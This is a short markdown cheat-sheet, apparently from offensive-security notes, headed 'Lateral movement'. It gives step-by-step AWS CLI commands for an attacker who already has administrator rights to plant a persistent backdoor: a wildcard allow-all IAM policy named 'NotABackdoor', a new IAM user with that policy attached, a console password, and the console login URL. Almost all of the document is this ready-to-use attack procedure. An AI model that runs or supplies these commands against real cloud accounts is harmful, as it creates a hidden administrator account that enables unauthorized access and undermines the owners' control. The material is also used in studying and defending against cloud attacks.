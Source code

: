 # Lateral movement
## Index
* [Gain GUI Acess](#Gain-GUI-Access)

## Gain GUI Access
#### Copy and save the following
- as ```admin-policy.json```
```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "NotABackdoor",
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```

#### Create a new user that will give gui access to
- After gaining administrator
- Note down the ARN
```
sudo aws iam create-user --user-name gui-user --profile <profile name>
```

#### Attach the policy to the new user
```
sudo aws iam put-user-policy --user-name gui-user --policy-name VisualAid --policy-document file://admin-policy.json --profile <profile name>
```

#### Set password for the user
```
sudo aws iam create-login-profile --user-name gui-user --password "GUIAccessTime1" --profile <profile name>
```

#### Login with account ID
- Part from ARN
- https://<Account-ID-Number>.signin.aws.amazon.com/console/
